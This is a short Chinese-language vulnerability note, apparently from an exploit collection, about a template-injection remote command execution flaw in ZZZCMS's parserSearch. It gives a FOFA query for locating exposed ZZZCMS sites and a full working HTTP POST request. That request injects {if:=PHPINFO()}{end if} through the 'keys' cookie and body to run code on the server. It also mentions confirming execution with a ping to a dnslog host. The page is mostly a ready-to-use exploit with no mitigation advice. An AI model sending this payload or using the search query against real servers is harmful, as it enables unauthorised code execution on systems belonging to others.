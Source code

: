 # ZZZCMS-parserSearch-远程命令执行漏洞

## 漏洞描述

ZZZCMS parserSearch 存在模板注入导致远程命令执行漏洞

## 漏洞影响

> [!NOTE]
>
> ZZZCMS

## FOFA

> [!NOTE]
>
> app="zzzcms"

## 漏洞复现

发送如下请求包命令执行

![](ZZZCMS-parserSearch-远程命令执行漏洞.assets/1627363012904515.jpg)

```
POST /?location=search HTTP/1.1
Host: 
Content-Length: 30
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=rbuhrqqhoctntnak8slkascqp1; keys=%7Bif%3A%3DPHPINFO%28%29%7D%7Bend+if%7D%0D%0A


keys={if:=PHPINFO()}{end if}
```

执行 ping dnslog

![](ZZZCMS-parserSearch-远程命令执行漏洞.assets/1627363013238653.jpg)

## Goby & POC

![](ZZZCMS-parserSearch-远程命令执行漏洞.assets/1627363013577183.jpg)